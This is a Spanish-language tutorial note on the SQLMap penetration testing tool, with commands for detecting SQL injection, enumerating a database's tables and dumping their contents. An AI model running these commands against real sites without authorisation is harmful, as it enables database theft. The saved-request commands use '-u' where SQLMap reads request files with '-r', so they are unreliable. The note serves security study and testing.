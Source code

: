
---
Herramienta: ⚡ SQLMap
Comando: sqlmap
Categoría: Automatización de SQL Injection
SO: Multiplataforma
tags:
  - sql_injection
  - bases_de_datos
  - hacking
  - testing
  - herramienta
---

## SQLMap

### Descripción

**SQLMap** es una herramienta automatizada de prueba de penetración que identifica y explota vulnerabilidades de inyección SQL en aplicaciones web. Permite a los usuarios interactuar con bases de datos vulnerables para realizar tareas como la enumeración de tablas, extracción de datos, obtención de credenciales e incluso la ejecución de comandos en sistemas comprometidos.

---

### Modificación de parámetros del payload en SQLMap

SQLMap genera automáticamente payloads para explotar vulnerabilidades de inyección SQL, pero es posible personalizar los parámetros para explorar diferentes bases de datos o realizar ataques más específicos.

---

### Uso básico de SQLMap

1. **Detección de vulnerabilidades**:
   Ejecuta SQLMap contra un objetivo para detectar posibles inyecciones SQL:
```bash
   sqlmap -u "http://objetivo.com/product?id=1" --batch
```

Tambien se puede hacer mediante un http request que hayamos guardado (desde burpsuite) y funciona incluso mejor. Un ejemplo sería:

```bash
#Asegurarse de estar en el mismo direcotorio que el request.
sqlmap -u request -p parametro_injectable --technique tecnica_explotacion
```

Mas ejemplos:

```bash
#Pillar le nombre de la base de datos
sqlmap -u request -p parametro_injectable --technique tecnica_explotacion --current-db

# Pillar las tablas de la base de datos
sqlmap -u request -p parametro_injectable --technique tecnica_explotacion -D nombre_database --tables

#Coger valores de una tabla
sqlmap -u request -p parametro_injectable --technique tecnica_explotacion -D nombre_database -T tabla --dump
```